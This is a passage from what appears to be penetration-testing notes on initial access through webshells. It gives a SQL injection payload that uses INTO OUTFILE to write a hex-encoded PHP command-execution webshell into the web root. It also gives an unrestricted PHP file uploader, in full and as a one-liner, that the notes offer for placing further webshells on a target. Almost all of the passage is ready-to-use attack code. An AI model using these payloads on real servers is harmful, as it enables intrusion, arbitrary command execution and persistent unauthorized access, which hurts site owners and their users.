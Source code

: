 ```sql
' UNION SELECT NULL, NULL INTO OUTFILE '/var/www/html/shell.php' COLUMNS TERMINATED BY 0x3c3f7068702073797374656d28245f4745545b5c27636d645c275d293b203f3e#
```

##### 4.2.5.1.2 - Uploader

You can use a file uploader that allows you to upload anything such as custom [[Pentesting Phases/Initial Access/Callback Shells/Webshells/Webshells|webshells]].

`$ cat uploader.php`

---

```php
<!DOCTYPE html>
<html lang="en">
    <head>
        <meta charset="UTF-8">
        <meta name="viewport" content="width=device-width, initial-scale=1.0">
        <title>File Upload</title>
    </head>
    <body>
        <h2>File Upload</h2>
        <form action="<?php echo $_SERVER['PHP_SELF']; ?>" method="POST" enctype="multipart/form-data">
            <input type="file" name="fileToUpload" id="fileToUpload">
            <input type="submit" value="Upload" name="submit">
        </form>

        <?php
        if (isset($_POST['submit'])) {
            if (!empty($_FILES['fileToUpload']['name'])) {
                $targetDir = './'; // Upload to the same directory as the PHP script
                $targetFile = $targetDir . basename($_FILES['fileToUpload']['name']);

                if (move_uploaded_file($_FILES['fileToUpload']['tmp_name'], $targetFile)) {
                    echo "File uploaded successfully.";
                } else {
                    echo "Sorry, there was an error uploading your file.";
                }
            } else {
                echo "Please choose a file to upload.";
            }
        }
        ?>
    </body>
</html>
```

Here's a one PHP liner.

```php
<?php if(isset($_POST['submit'])){$t='./';$f=$t.basename($_FILES['fileToUpload']['name']);if(move_uploaded_file($_FILES['fileToUpload']['tmp_name'],$f))echo"File uploaded successfully.";else echo"Sorry, there was an error uploading your file.";}?> <!DOCTYPE html><html lang="en"><head><meta charset="UTF-8"><meta name="viewport" content="width=device-width, initial-scale=1.0"><title>File Upload</title></head><body><h2>File Upload</h2><form action="<?=$_SERVER['PHP_SELF']?>" method="POST" enctype="multipart/form-data"><input type="file" name="fileToUpload" id="fileToUpload"><input type="submit" value="Upload" name="submit"></form></body></html>
```
